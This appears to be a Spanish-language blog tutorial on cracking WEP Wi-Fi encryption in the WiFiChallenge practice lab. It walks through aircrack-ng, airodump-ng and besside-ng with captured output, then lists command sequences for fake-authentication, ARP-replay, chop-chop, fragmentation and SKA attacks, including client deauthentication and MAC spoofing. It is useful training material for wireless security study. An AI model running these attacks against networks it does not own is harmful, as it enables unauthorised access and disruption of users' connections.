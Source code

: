 ```yaml
---
layout: single
title: Hacking Wifi WEP
excerpt: "En este post vamos a estar explicando que es el protocolo WEP en el mundo del wifi y mostrando ataques para este protocolo que ya se encuntra obsoleto a dia de hoy"
date: 2024-01-22
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/hacking-wep-wifi/icon.png
  teaser_home_page: true
categories:
  - Hacking Wifi
  - WEP
tags:  
  - OSWP
  - WEP
  - Hacking Wifi
---
```


## Introducción WEP

Wired Equivalent Privacy (Privacidad Equivalente a la Conexión por Cable), es un protocolo de seguridad diseñado para proteger las redes inalámbricas. Fue uno de los primeros estándares de seguridad utilizado en redes Wi-Fi, pero se considera obsoleto y se ha vuelto vulnerable a ataques, este protocolo cifra el tráfico con una clave hexadecimal de **64 o 128 bits** todo el tráfico se cifra con una única clave.

>WEP utiliza un esquema de cifrado de clave compartida, donde todas las estaciones en la red comparten una clave secreta. El problema principal con WEP es que presenta debilidades significativas en su implementación del cifrado, lo que hace que sea relativamente fácil para los atacantes interceptar y descifrar el tráfico de la red. Los ataques a WEP incluyen la recopilación de paquetes y el uso de herramientas como Aircrack-ng para descifrar la clave.

## Creando un AP que use el protocolo WEP

En caso de que quieras desplegar el **AP** tu mismo puedes seguir estos pasos para hacerlo exitosamente <https://tonyharris.io/posts/virtual_wifi_lab/> en mi caso estare empleando el **AP** ya desplegado del **WifiChallengev2** <https://wifichallengelab.com/>

## Atacando el protocolo WEP

Bueno lo primero que haremos es poner nuestra antena de red en modo monitor en caso de estar empleando el lab de **wifichallenge** ya tiene integrada la interfaz asi que solo haremos lo siguiente

>Las partes censuradas es por que hay mas usuarios completando el laboratorio para evitar una mala experiencia y meterme en problemas con el creador lo hare de esa forma.

```bash
root@WiFiChallengeLab:/home/user/AP# airmon-ng start wlan0

Found 5 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    611 avahi-daemon
    614 NetworkManager
    633 wpa_supplicant
    665 avahi-daemon
    945 ifplugd

PHY	Interface	Driver		Chipset

phy0	wlan0		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211

		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
		(mac80211 station mode vif disabled for [phy0]wlan0)
phy1	wlan1		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy2	wlan2		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy3	wlan3		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy4	wlan4		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy5	wlan5		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy6	wlan6		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy60	wlan60		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
```

Ahora matamos los procesos que no nos sirven

```bash
root@WiFiChallengeLab:/home/user/AP# airmon-ng check kill

Killing these processes:

    PID Name
    633 wpa_supplicant
    945 ifplugd
 406555 avahi-daemon
 406769 avahi-daemon

root@WiFiChallengeLab:/home/user/AP# 
```

Una vez hecho esto comenzamos capturando el trafico en este caso vemos que el **AP** existe y esta operativo

![](https://i.imgur.com/tGjkeMj.png)

```bash
❯ airodump-ng wlan0mon
```

Y bueno hay un cliente asociado a ese **AP** vamos a estar capturando paquetes en la columna de **Data** entre mas tengamos mas probabilidades hay de crackear la contraseña

```bash
root@WiFiChallengeLab:/home/user/AP# airodump-ng wlan0mon -c 1 -w captura
```

Podemos ver que ya hemos recolectado muchos 

![](https://i.imgur.com/OABgdbb.png)

Una vez paramos el ataque podemos hacer lo siguiente para crackear la contraseña

```bash
root@WiFiChallengeLab:/home/user/AP# aircrack-ng captura-01.cap -w /root/wifi-rockyou.txt
```

En caso de no encontrar la contraseña veras algo como esto **Si la contraseña fue encontrada la veras en texto plano**

![](https://i.imgur.com/yzgc60n.png)

Ahora podemos usar otra herramienta que es **besside-ng** ya que esta herramienta esta diseñada para encontrar claves **WEP** solo le pasamos la **MAC** y el canal en el que opera

```bash
root@WiFiChallengeLab:/home/user/AP# besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan2
```

Ahora podemos ver la **KEY**

![](https://i.imgur.com/5hWf7M7.png)

## Mas ataques

Este protocolo esta obsoleto pero aqui te comparto mas ataques

# Fake Authentication Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreCaptura> wlan0mon
❯ aireplay-ng -1 0 -a <BSSID> -h <nuestraMAC> -e <ESSID> wlan0mon
❯ aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <nuestraMAC> wlan0mon
❯ aircrack-ng –b <BSSID> <archivoPCAP>
```

# ARP Replay Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreCaptura> wlan0mon
❯ aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <nuestraMAC> wlan0mon
❯ aircrack-ng –b <BSSID> <archivoPCAP>
```

# Chop Chop Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreArchivo> wlan0mon
❯ aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <nuestraMAC> wlan0mon
❯ aireplay-ng -4 –b <BSSID> -h <nuestraMAC> wlan0mon
 # Presionamos ‘y’ ;
❯ packetforge-ng -0 –a <BSSID> -h <nuestraMAC> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
❯ aireplay-ng -2 –r <FileName2> wlan0mon
❯ aircrack-ng <archivoPCAP>
```

# Fragmentation Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreArchivo> wlan0mon
❯aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <nuestraMAC> wlan0mon
❯aireplay-ng -5 –b<BSSID> -h <nuestraMAC > wlan0mon
# Presionamos ‘y’ ;
❯ packetforge-ng -0 –a <BSSID> -h <nuestraMAC> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
❯ aireplay-ng -2 –r <FileName2> wlan0mon
❯ aircrack-ng <archivoPCAP>
```

# SKA Type Cracking

```bash
❯ airmon-ng start wlan0
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreArchivo> wlan0mon
❯ aireplay-ng -0 10 –a <BSSID> -c <macVictima> wlan0mon
❯ ifconfig wlan0mon down
❯ macchanger –-mac <macVictima> wlan0mon
❯ fconfig wlan0mon up
❯ aireplay-ng -3 –b <BSSID> -h <macFalsa> wlan0mon
❯ aireplay-ng –-deauth 1 –a <BSSID> -h <macFalsa> wlan0mon
❯ ircrack-ng <archivoPCAP>
```
